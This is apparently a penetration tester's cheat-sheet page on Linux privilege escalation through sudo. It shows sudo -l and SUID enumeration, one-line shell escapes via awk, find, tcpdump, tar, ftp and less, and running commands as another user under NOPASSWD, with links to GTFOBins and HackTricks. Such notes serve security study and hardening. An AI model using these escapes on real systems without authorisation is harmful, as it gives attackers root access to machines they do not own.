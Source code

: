 # Sudo Trickery

## Enumerating Sudo Permissions

### Checking Sudo-Related Permissions

```shell-session
$ sudo -l
[sudo] password for joe:
Matching Defaults entries for joe on debian-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User joe may run the following commands on debian-privesc:
    (ALL) (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get
```

### Find all SUID Binaries

```shell-session
$ find / -perm -4000 2>/dev/null #Find all SUID binaries
```

### Sneaking Commands at the end of a command

Sometimes we can slide in a shell command at the end of a command

```shell-session
$ sudo awk 'BEGIN {system("/bin/sh")}'
$ sudo find /etc -exec sh -i \;
$ sudo tcpdump -n -i lo -G1 -w /dev/null -z ./runme.sh
$ sudo tar c a.tar -I ./runme.sh a
$ ftp>!/bin/sh
$ less>! <shell_comand>
```



## Running as other user

If there is NOPASSWD sudo permissions we can access with:

```shell-session
$ sudo -l
Matching Defaults entries for max on so-simple:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User max may run the following commands on so-simple:
    (steven) NOPASSWD: /usr/sbin/service

```

We can run as steven with the following:

```shell-session
$ sudo -u steven /usr/sbin/service -h
Usage: service < option > | --status-all | [ service_name [ command | --full-restart ] ]

```

### GTFOBins

Check GTFOBins - a list of binaries that can be exploited to bypass local restrictions.

{% embed url="https://gtfobins.github.io/" %}

***

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid" %}
